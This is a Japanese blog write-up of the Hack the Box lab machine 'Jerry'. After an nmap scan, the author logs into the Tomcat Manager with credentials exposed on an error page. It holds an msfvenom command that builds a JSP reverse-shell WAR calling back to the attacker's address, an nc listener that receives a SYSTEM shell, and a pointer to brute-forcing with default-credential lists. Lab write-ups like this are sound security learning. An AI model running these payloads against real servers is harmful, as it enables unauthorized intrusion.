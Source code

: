 ```yaml
---
title: "【Hack the Box write-up】Jerry"
date:  "2020-05-22"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Jerry"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-05-22 14.54.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/97a1b7d6-4cba-5abc-fa38-ac13aab91be3.png)

easy の中でもかなり簡単な部類です。（Hack the Box 久々なのでリハビリがてらということで…

## nmap

```
kali@kali:~$ nmap -sV -sC 10.10.10.95 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 01:49 EDT
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```

## 8080ポート見てみる

![スクリーンショット 2020-05-22 16.58.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f58acf6d-4b2f-0f5c-3519-3f88bb5cb8b2.png)

Manager App が怪しそうなので見てみます、Basic 認証が出てきますが適当に打ち込んで外しました。
![スクリーンショット 2020-05-22 17.06.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/03f54edf-6280-5f30-236e-c55821f4c501.png)
エラーページになんか user と password っぽいの見えてね…？

ということでキャッシュ削除して見えてた user/pass で入ると
![スクリーンショット 2020-05-22 17.09.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/670571cd-4e76-43be-5343-b6d4adf9fdaa.png)

入れました。

## msfvenom

![スクリーンショット 2020-05-22 20.19.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f61b3de0-1e3f-fb54-b875-f4fb0997ec58.png)

war をあげれそうなので msfvenom で payload 生成します

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=1212 -f war > paypay.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes

```
これを upload します

nc で待ち受けると…

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
一気に admin で取れちゃいました

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,919,424 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
********************************

root.txt
********************************

```

flag も 2 つ一気に取れちゃいましたね

## 終わりに
流石に簡単でした。
今月の目標はできる限り metasploit を使わないです

## 他のwriteupみてて参考になりそうだったもの
tomcat の defaultpasslist
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
hydra とか使えば 403 ページで user/pass 見えてなくても（or 見えてることに気づかなくても）サクッと bruteforce できそう

